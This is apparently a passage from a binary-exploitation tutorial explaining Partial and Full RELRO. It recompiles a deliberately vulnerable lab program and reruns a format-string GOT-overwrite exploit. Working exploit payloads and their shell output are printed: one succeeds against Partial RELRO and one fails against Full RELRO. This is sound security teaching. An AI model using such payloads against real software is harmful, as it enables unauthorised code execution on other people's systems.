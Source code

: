 # Relocation Read-Only(RELRO)

This is the last security mechanism that makes some sections of the binary have read-only permissions. I disabled it with `-Wl,-z,norelro` in the attachment with GOT overwriting.

So, there are two types of RELRO: Partial RELRO and Full RELRO. First "forces the GOT to come before the BSS in memory, eliminating the risk of a buffer overflows on a global variable overwriting GOT entries". But second, makes the GOT read-only, so, attacks like GOT overwrite will be useless when this option occurs.

Let's dive in and see the difference in the 'got-overwrite' binary. I'll recompile it with enabled RELRO and will execute the exploit again. I didn't write python exploit on GOT overwrite and this was nice, because now when I compile it with Partial RELRO. Again, do the algorithm to exploit the format string and overwrite the GOT entries with system syscall. You can compare the exploit here and exploit there in the format-string section. Here, it changed.

```bash
$ checksec got-overwrite-with-partial-relro
[*] '/home/shogun/repos/basics-of-pwn/content/security-techniques/got-overwrite-with-partial-relro'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
$ ./got-overwrite-with-partial-relro $(python -c 'print "\x0c\xc0\x04\x08" + "\x0e\xc0\x04\x08" + "\x10\xc0\x04\x08" + "\x12\xc0\x04\x08" + "%6176u" + "%54$n" + "%57264u" + "%55$n" + "%55760u" + "%56$n" + "%9778u" + "%57$n"')

0/bin/sh
$ w
 22:10:25 up 28 min,  1 user,  load average: 0.50, 0.39, 0.36
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
shogun   tty7     :0               21:42   28:09   1:11   1.19s xfce4-session
$
```

Okay, partial RELRO is useless against our attack. Let's consider Full RELRO.
```bash
$ gcc ../format-string/got-overwrite.c -o got-overwrite-with-full-relro -fno-stack-protector -no-pie -z execstack -m32 -Wl,-z,relro,-z,now
$ checksec got-overwrite-with-full-relro
[*] '/home/shogun/repos/basics-of-pwn/content/security-techniques/got-overwrite-with-full-relro'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
$ gdb -q got-overwrite-with-full-relro
gef➤  b *main + 138
Breakpoint 1 at 0x8049260
gef➤  r $(python -c 'print "\x0c\xc0\x04\x08" + "\x0e\xc0\x04\x08" + "\x10\xc0\x04\x08" + "\x12\xc0\x04\x08" + "%6176u" + "%54$n" + "%57264u" + "%55$n" + "%55760u" + "%56$n" + "%9778u" + "%57$n"')
0/bin/sh

Breakpoint 1, 0x08049260 in main ()
gef➤  got

GOT protection: Full RelRO | GOT functions: 4

[0x804bfec] printf@GLIBC_2.0  →  0xf7e10340
[0x804bff0] gets@GLIBC_2.0  →  0xf7e2d1b0
[0x804bff4] __libc_start_main@GLIBC_2.0  →  0xf7ddadf0
[0x804bff8] strncpy@GLIBC_2.0  →  0xf7e57690
gef➤  c
Continuing.
/bin/sh[Inferior 1 (process 6582) exited normally]
gef➤  quit
$ ./got-overwrite-with-full-relro $(python -c 'print "\x0c\xc0\x04\x08" + "\x0e\xc0\x04\x08" + "\x10\xc0\x04\x08" + "\x12\xc0\x04\x08" + "%6176u" + "%54$n" + "%57264u" + "%55$n" + "%55760u" + "%56$n" + "%9778u" + "%57$n"')

0/bin/sh
/bin/sh
$
```
Thus, the GOT entries stayed the same.
